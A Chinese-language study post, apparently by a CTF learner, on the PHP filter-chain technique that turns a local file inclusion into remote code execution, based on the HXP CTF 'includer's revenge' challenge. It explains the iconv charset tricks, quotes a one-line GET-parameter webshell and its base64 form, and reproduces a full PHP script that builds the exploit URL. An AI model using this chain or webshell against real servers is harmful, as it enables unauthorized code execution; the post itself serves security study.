


# [PHP]无需可控文件的LFI-RCE学习

## 前言

昨天晚上P神的代码审计圈子里面提到了一个LFI的方法，题目来源是前段时间的HXPCTF中的题目`includer's revenge`。国外的一个师傅通过fuzz的方法通过iconv成功的将任意一个文件里的内容转换为一句话木马的方式，基本上可以说，PHP的LFI可能就到此为止了。

今天参考陆队的文章：https://tttang.com/archive/1395/，来学习一下思路和攻击方式。确实不得不说，nb。

这篇文章就只是大概记录一下学习的思路了，水一点因为我太懒了hhh，陆队的文章写的很详细了。


## 分析学习

之前在SESSION文件包含的时候就遇到过往SESSION里面写base64，前面凑齐4的整数倍的字符，然后接下来就是一句话的base64编码，再利用`php://filter/convert.base64-decode/resource=/tmp/sess_xxx`就可以直接rce，因为里面的base64解码后就可以得到完整的一句话。

再联想到，base64解码的时候会忽略除了base64中那64个字符的其他字符，只处理那64个字符，于是国外的那个师傅就开始尝试能不能通过iconv中不同字符集的转换来成功的得到base64中的字符，最后再来一层base64-decode即可rce。


比如`convert.iconv.UTF8.CSISO2022KR`，每次这样都会在字符串的首部产生`\x1b$)C`，可以发现这4个字符中只有字符C属于Base64中，再进行一次base64-decode再base64-encode之后，就只剩下字符C了：

```php
include "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode/resource=data://,aaaaa"
```

同理，也可以得到更多的字符。作者最终利用的是：

```php
<?=`$_GET[0]`;;?>
PD89YCRfR0VUWzBdYDs7Pz4=
```

可能是因为非数字字母不太好找出（wupco师傅已经基本找出了所有的数字和字母）。


陆队文章中的脚本：

```php
<?php
$base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4";
$conversions = array(
    'R' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=data://,aaaaaaaaaaaaaaaaaaaa";
var_dump($final_payload);
```


至于需要把`$base64_payload`反转则是因为是从右边开始产生字符，然后在最左边通过`convert.iconv.UTF8.CSISO2022KR`来生成`\x1b$)C`然后进行利用，还不能影响后面已经产生的字符。

至于`convert.iconv.UTF8.UTF7`单纯的防止`=`的干扰。


个人觉得可能对于字符集有一定的要求，不同的环境似乎有的字符集不存在导致了POC打不通，或许更近一步fuzz的话可能能得到更为通用的字符集构造的POC。


复现：



## 总结

陆队文章里的这句话戳到了我：



这段时间一直在摆烂不想碰Java，其实想想还是得学学Java的，菜狗落泪呜呜。